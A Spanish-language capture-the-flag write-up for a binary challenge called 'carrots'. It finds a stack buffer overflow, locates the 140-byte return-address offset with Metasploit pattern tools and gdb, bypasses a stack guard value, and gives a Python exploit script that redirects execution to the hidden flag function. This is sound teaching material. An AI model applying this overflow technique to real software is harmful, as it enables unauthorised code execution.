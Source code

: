 ## **Enunciado**

Points: 300   
Country: Mexico   
Attatchment: https://mega.nz/#!twM1nYCA!qXDWql7ER6gLYj6eaT7iG-12sFdH3ozePk0VDl_xLwk   
Description: We all know that rabbits' favorite food is carrots. Help the rabbits to eat their favorite food today and be careful with the birds...good luck!   

## **Solución**

Se trata del clásico buffer overflow que peta cuando le metes más caracteres de los debidos:

```
./carrots 
 Where is my carrot?
 > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaa
Segmentation fault
```

Vamos a crear un patrón de caracteres para averiguar el offset con metasploit:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

Lo metemos en gdb y nos da una dirección que se corresponde con una parte del patrón anteior. Esta dirección se la pasamos a metaspoit otra vez y nos da el offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 150 -q 0x37654136
[*] Exact match at offset 140
```

Si nos fijamos en la función main vemos que hay una función que recoge nuestros datos por consola, esta función es vulnerable a un buffer overflow, por lo tanto vamos a sobreescribir aquí el EIP

```
08049790 <main>:
 8049790:	55                   	push   ebp
 8049791:	89 e5                	mov    ebp,esp
 8049793:	81 ec a8 00 00 00    	sub    esp,0xa8
 8049799:	c7 45 fc 44 52 49 42 	mov    DWORD PTR [ebp-0x4],0x42495244
 80497a0:	c7 45 f8 00 00 00 00 	mov    DWORD PTR [ebp-0x8],0x0
 80497a7:	e8 64 fa ff ff       	call   8049210 <_Z6bannerv>             <== Pinta el dibujito
 80497ac:	8d 05 4a a0 04 08    	lea    eax,ds:0x804a04a
 80497b2:	89 04 24             	mov    DWORD PTR [esp],eax
 80497b5:	e8 a6 f7 ff ff       	call   8048f60 <printf@plt>             <== Muestra la pregunta por pantalla
 80497ba:	8d 0d a0 c0 04 08    	lea    ecx,ds:0x804c0a0
 80497c0:	8d 95 78 ff ff ff    	lea    edx,[ebp-0x88]
 80497c6:	89 0c 24             	mov    DWORD PTR [esp],ecx
 80497c9:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80497cd:	89 85 74 ff ff ff    	mov    DWORD PTR [ebp-0x8c],eax
 80497d3:	e8 c8 f7 ff ff       	call   8048fa0                          <== Función vulnerable que recoge los datos introducidos
 80497d8:	81 7d f8 00 00 00 00 	cmp    DWORD PTR [ebp-0x8],0x0
 80497df:	89 85 70 ff ff ff    	mov    DWORD PTR [ebp-0x90],eax
 80497e5:	0f 85 14 00 00 00    	jne    80497ff <main+0x6f>
 80497eb:	31 c0                	xor    eax,eax
 80497ed:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 80497f4:	89 85 6c ff ff ff    	mov    DWORD PTR [ebp-0x94],eax
 80497fa:	e8 a1 f8 ff ff       	call   80490a0 <exit@plt>
 80497ff:	31 c0                	xor    eax,eax
 8049801:	8b 4d f8             	mov    ecx,DWORD PTR [ebp-0x8]          
 8049804:	89 0d d0 c1 04 08    	mov    DWORD PTR ds:0x804c1d0,ecx    
 804980a:	8b 4d fc             	mov    ecx,DWORD PTR [ebp-0x4]
 804980d:	89 0d d4 c1 04 08    	mov    DWORD PTR ds:0x804c1d4,ecx
 8049813:	8b 4d 04             	mov    ecx,DWORD PTR [ebp+0x4]
 8049816:	89 0d d8 c1 04 08    	mov    DWORD PTR ds:0x804c1d8,ecx
 804981c:	81 c4 a8 00 00 00    	add    esp,0xa8
 8049822:	5d                   	pop    ebp
 8049823:	c3                   	ret                                     <== Sobreescribir aquí el EIP antes de llamar a ret
 8049824:	66 90                	xchg   ax,ax
 8049826:	66 90                	xchg   ax,ax
 8049828:	66 90                	xchg   ax,ax
 804982a:	66 90                	xchg   ax,ax
 804982c:	66 90                	xchg   ax,ax
 804982e:	66 90                	xchg   ax,ax

```

Una vez que sabemos que si escribimos 140 caracteres va a sobreescribir el EIP del stack frame de main, podemos poner la dirección que nos interese para dirigir el programa a donde nos interese ejecutarlo. ¿Donde lo apuntamos para que nos muestre el flag?

```
objdump -x carrots | grep CARR
08049570 g     F .text	0000021a              _Z6CARROTv
```

```
br *0x804981c

set {int}0xbffff334=0x42495244
set {int}0xbffff338=0x00000000
set {int}0xbffff33c=0x08049570
evitar canary
```

```python
#!/usr/bin/python
# Fichero pwn_please_no.py 
# Exploit ROP


from struct import pack

binary = "please-no"
junk = "A" * 132

rop = pack('<I', 0x42495244)   
rop += pack('<I', 0x00000000)    
rop += pack('<I', 0x08049570)   


payload = junk + rop 
print payload
```
